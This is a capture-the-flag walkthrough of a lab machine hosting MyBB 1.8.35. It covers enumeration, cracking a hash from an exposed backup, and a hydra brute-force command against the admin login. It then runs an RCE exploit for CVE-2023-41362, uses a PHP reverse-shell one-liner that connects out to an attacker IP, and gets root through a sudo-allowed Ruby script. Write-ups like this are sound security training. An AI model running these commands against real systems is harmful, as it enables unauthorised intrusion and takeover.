 ﻿# ENUMERATION


## OPEN PORTS


![Pasted image 20241029135137.png](../../IMAGES/Pasted%20image%2020241029135137.png)
Seems like we only have a website, let's fuzz it


## FUZZING

### GOBUSTER FUZZ

![Pasted image 20241029135218.png](../../IMAGES/Pasted%20image%2020241029135218.png)

### SOURCE CODE AND WEBPAGE

Nothing useful, let's see the page:

![Pasted image 20241029143334.png](../../IMAGES/Pasted%20image%2020241029143334.png)

Let's go to the forum:

![Pasted image 20241029143346.png](../../IMAGES/Pasted%20image%2020241029143346.png)

We need to add `panel.mybb.dl` to `/etc/hosts` in order to be able to go into the website:

![Pasted image 20241029143517.png](../../IMAGES/Pasted%20image%2020241029143517.png)

![Pasted image 20241029143536.png](../../IMAGES/Pasted%20image%2020241029143536.png)
Nice, let's keep enumerating the machine until we find something we can exploit:

![Pasted image 20241029143732.png](../../IMAGES/Pasted%20image%2020241029143732.png)
We can see we only have the admin user registered, 


![Pasted image 20241029143829.png](../../IMAGES/Pasted%20image%2020241029143829.png)
Let's fuzz the `http://panel.mybb.dl` website to check if we can find anything:

![Pasted image 20241029144434.png](../../IMAGES/Pasted%20image%2020241029144434.png)

We found interesting things, directory I like the most is the `/backups` directory, let's fuzz it to check if there's anything in there:

![Pasted image 20241029144701.png](../../IMAGES/Pasted%20image%2020241029144701.png)

Found `/data` inside of the directory, let's take a look:

![Pasted image 20241029144821.png](../../IMAGES/Pasted%20image%2020241029144821.png)

In general, SQL queries can be found, and some login attempts, but the most interesting part is the following:

![Pasted image 20241029144856.png](../../IMAGES/Pasted%20image%2020241029144856.png)

User `alice` attempted to log in using a password, that seems like a hash, let's try to crack it and log into Alice account

![Pasted image 20241029145105.png](../../IMAGES/Pasted%20image%2020241029145105.png)

We got `alice:tinkerbell` let's attempt to log in:

![Pasted image 20241029145142.png](../../IMAGES/Pasted%20image%2020241029145142.png)
We cannot get in using those credentials, seems like they were fake, so, why don't we try some bruteforce using the `admin` username, let's capture the request with `burp` and use `hydra` to brute force our login page:


```request
POST /admin/index.php HTTP/1.1

Host: panel.mybb.dl

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 38

Origin: null

Connection: keep-alive

Cookie: mybb[lastvisit]=1730230425; mybb[lastactive]=1730230863; sid=df2321f0ff06ec973eb0f4cbfc38c6de

Upgrade-Insecure-Requests: 1

Priority: u=0, i



username=admin&password=admin&do=login
```

So, we got a post request, let's brute force:

```ad-hint

##### HYDRA COMMAND

`hydra -l admin -P /usr/share/wordlists/rockyou.txt panel.mybb.dl http-post-form "/admin/index.php:username=^USER^&password=^PASS^&do=login:F=Login Failed"`




```

So, we got plenty amount of passwords, after trying every single one of them, correct credentials were: `admin`:`babygirl`, let's log in and proceed with exploitation:

![Pasted image 20241029150737.png](../../IMAGES/Pasted%20image%2020241029150737.png)



# EXPLOITATION


First, we can see we are running `myBB 1.8.35` let's search for any exploit in this version:

![Pasted image 20241029150932.png](../../IMAGES/Pasted%20image%2020241029150932.png)
We found this [exploit](https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE), let's download it and use it:

![Pasted image 20241029151057.png](../../IMAGES/Pasted%20image%2020241029151057.png)
So, we need to put this:

```ad-hint

# PYTHON COMMAND:

python3 exploit.py http://panel.mybb.dl admin babygirl

##### OUTPUT


We got RCE!
```

With the RCE from the exploit, we can get a [reverse shell](../../REVERSE%20SHELLS/MOST%20COMMON%20REVERSE%20SHELLS.md):

```ad-note

# USED SHELL

php: `php -r '$sock=fsockopen("192.168.200.136",4444);shell_exec("bash <&3 >&3 2>&3");'`

# CONNECTION RECEIVED


```

Let's [stabilize our shell](../../Commands/Shell%20Tricks/STABLE%20SHELL.md):

![Pasted image 20241029151553.png](../../IMAGES/Pasted%20image%2020241029151553.png)

With our new stable shell, we can begin with [PRIVESC](../../LINUX/LINUX%20PRIVILEGE%20ESCALATION/BASIC%20PRIVESC%20IN%20LINUX.md)

# PRIVILEGE ESCALATION



At home directory, we can find our previous user `alice`, let's switch users:

![Pasted image 20241029151851.png](../../IMAGES/Pasted%20image%2020241029151851.png)

Nice, we were able to switch to alice, let's use `sudo -l` to get root access:


## SUDO -L


![Pasted image 20241029151944.png](../../IMAGES/Pasted%20image%2020241029151944.png)
Pretty weird, let's take a look at that:

It is a ruby script, since we can execute any ruby script as root without the need of a password, we can do the following:

```ad-hint

`echo 'exec "/bin/bash"' > /home/alice/scripts/root.rb`
`chmod +x root.rb`

`sudo /home/alice/scripts/root.rb`

# OUTPUT



```

And just like that, the CTF is done!
